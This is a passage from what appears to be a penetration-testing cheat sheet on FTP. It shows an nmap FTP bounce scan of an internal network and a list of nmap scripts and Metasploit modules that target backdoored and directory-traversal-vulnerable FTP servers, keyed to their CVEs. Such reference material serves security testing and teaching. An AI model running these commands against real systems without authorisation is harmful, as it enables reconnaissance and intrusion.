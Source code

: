 For example, an attacker using this vulnerability can scan ports in the internal network systems by using the following command:

```bash
nmap -v -p 21,22,445,80,443 -b username:password@172.19.0.100 192.168.0.1/24
```

![Unsuccess FTP Bounce scan example output.](/assets/img/pitcures/ftp/ftp6.png)
_Unsuccess FTP Bounce scan example output._

![Success FTP Bounce scan example output.](/assets/img/pitcures/ftp/ftp7.png)
_Success FTP Bounce scan example output._

<h3>Specific Vulnerabilities and Exploits, PoC's and Nmap Scripts</h3>

```bash
#OPIE <= 2.4.1-test1 @ FreeBSD 6.4 – 8.1-PRERELEASE [CVE-2010-1938]
nmap --script=ftp-libopie -p21 10.10.x.x

#VSFTPD 2.3.4 [CVE-2011-2523]
nmap --script=ftp-vsftpd-backdoor -p21 10.10.x.x

#ProFTPd 1.3.3c [OSVDB 69562]
nmap --script=ftp-proftpd-backdoor -p21 10.10.x.x

#ProFTPD 1.3.2rc3 – 1.3.3b [CVE-2010-4221]
nmap --script=ftp-vuln-cve2010-4221 -p21 10.10.x.x

#Titan FTP Server <= 8.10.1125 – Directory Traversal [CVE-2010-2426]
msf > use auxiliary/scanner/ftp/titanftp_xcrc_traversal

#PCMan FTP Server 2.0.7 – Directory Traversal [CVE-2015-7601]
msf > use auxiliary/scanner/ftp/pcman_ftp_traversal

#Konica Minolta FTP Utility 1.00 – Directory Traversal [CVE-2015-7603]
msf > use auxiliary/scanner/ftp/konica_ftp_traversal

#BisonFTP Server 3.5 – Directory Traversal [CVE-2015-7602]
msf > use auxiliary/scanner/ftp/bison_ftp_traversal

#ColoradoFTP Server <= 1.3 Build 8 – Directory Traversal [EDB-40231]
msf > use auxiliary/scanner/ftp/colorado_ftp_traversal

#Easy File Sharing FTP Server <= 3.6 – Directory Traversal [CVE-2017-6510]
```